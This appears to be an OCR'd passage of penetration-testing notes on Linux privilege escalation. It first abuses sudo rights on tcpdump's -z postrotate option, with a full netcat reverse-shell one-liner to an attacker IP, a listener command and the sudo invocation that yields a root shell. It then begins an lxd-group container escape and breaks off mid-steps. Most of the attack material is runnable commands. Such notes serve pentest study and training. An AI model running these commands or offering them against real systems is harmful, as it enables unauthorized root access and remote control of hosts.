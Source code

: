 * The user can run **tcpdump** as root, without a password.
* The **`-z postrotate-command`** option of tcpdump allows execution of a command/script after rotating capture files.

## 🚀 Exploiting tcpdump sudo rights

1. **Create a malicious script** (e.g., reverse shell):

   ```bash
   cat /tmp/.test
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
   ```

2. **Set up a listener** on the attacker’s machine:

   ```bash
   nc -lnvp 443
   ```

3. **Run tcpdump with sudo and the -z option**:

   ```bash
   sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
   ```

4. **Result**:

   * tcpdump executes the script as **root**.
   * Attacker gains a **root reverse shell**.

#### ⚠️ Limitations

* In newer Linux distros, **AppArmor** and similar protections restrict the `postrotate-command` options (e.g., only gzip/bzip2 allowed).

---

# Privileged Groups Exploitation

## LXC / LXD
- **Overview:**  
  LXD is Ubuntu’s container manager, similar to Docker.  
  Users added to the **lxd** group can escalate privileges.

- **Steps to Exploit:**
  1. Confirm group membership:
     ```bash
     id
     ```
     Example:
     ```
     uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
     ```
  2. Extract Alpine image:
     ```bash
     unzip alpine.zip
     cd 64-bit\ Alpine/
     ```
  3. Import image:
     ```bash
     lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
     ```
  4. Create privileged container:
     ```bash
     lxc init alpine r00t -c security.privileged=true
     ```
  5. Mount host filesystem:
